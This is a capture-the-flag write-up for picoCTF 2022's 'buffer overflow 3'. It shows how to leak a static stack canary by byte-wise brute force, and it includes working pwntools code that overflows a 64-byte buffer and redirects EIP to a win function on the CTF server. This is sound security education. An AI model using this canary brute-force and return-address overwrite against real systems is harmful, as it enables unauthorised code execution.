

# buffer overflow 3

**Info**

The problem is part of picoCTF 2022 - buffer overflow 3
picoCTF buffer overflow 3

**Problem Part**


The problem give us 3 thing.

1. Binary file
2. Source
3. Server

First, I tried to connect to the server and observe what does it do.



The server ask the size of input and take input equal to that size.

I think I can use this input to overflow the buffer. So let's dive into the source code file.

**Source Code Part**

The source code have 3 main interesting function which are

1. win


This function will be call to print the flag so, we might need to overflow the buffer and control the EIP to point to this function.

2. vuln


This is the main program where the user interact with.

You can see that the program check that the canary is changed or not. If the value of canary is changed, it will not run.

So if we want to overflow the buffer and control EIP, we need to find a way to obtain the value canary.

3. read_canary


This function is use to get the canary stored in the directory.


After we observe the source code. Let's find a way to overflow the buffer.

**Testing on the local machine**

I create the file "canary.txt" with text "1234" as canary which is necessary to run the program and try to gdb it.


From the source code. We have buf with size 64 and canary with length 4.


So, the stack might be something like this.


Then, to overflow, I created the payload with "a"*64 + "1234" + pattern

"a" * 64 is use to fill the variable buf

"1234" is the canary I created on my machine.

pattern is the pattern text that we will use to find the offset of the EIP register.


And Boom! We got the offset of EIP register. So now we just need to overflow EIP.


By using the gdb we can get the address of win function which is at 0x08049336.


I try to overflow it on the local machine, and it works.

So let's move to the one on the server.

**Find the canary of the server and obtaining the flag**

```python
from pwn import *
import string

offset1 = b"a" * 64
canary = b""
offset2 = b"a" * 16
eip = p32(0x08049336)
```

This is all varible we obtain on the local machine.

The canary of the server is secret, so we need to figure it out by bruteforce it.

Let's go back to the source code first.


We know that if the canary is not matched, the program will print **Canary Value Corrupt!** and if the canary is matched, it will print **Ok ... Now Where's the Flag**

And we also know that, the program will ask the size of input before taking the input.

So, we can use this to find the canary letter-by-letter.

```python
# find canary
for i in range(1, 5):
    for c in string.printable:
        r = remote("saturn.picoctf.net", 58405)
        r.recvuntil('>')
        r.sendline(str(64+i).encode()) # size the we want to input
        r.recvuntil('>')
        r.sendline(offset1 + canary + c.encode()) # try to add 1 more character
        output = r.recvall().decode()
        if 'Flag' in output: # if the char c is corret canary
            canary += c.encode()
            break
    print(canary)
```

I do the loop for 4 times to find the canary in each place.

We try to bruteforce all character that is possible of the canary by letter and trigger the correct canary by observing the output of the server.

Then after we got the canary, just craft the payload and obtain the flag.

```python
# send the payload and obtain the flag
r = remote("saturn.picoctf.net", 58405)
r.recvuntil('>')
r.sendline(str(64+4+16+4).encode())
r.recvuntil('>')
r.sendline(offset1+canary+offset2+eip)
r.interactive()
```


For full code [solve.py](solve.py)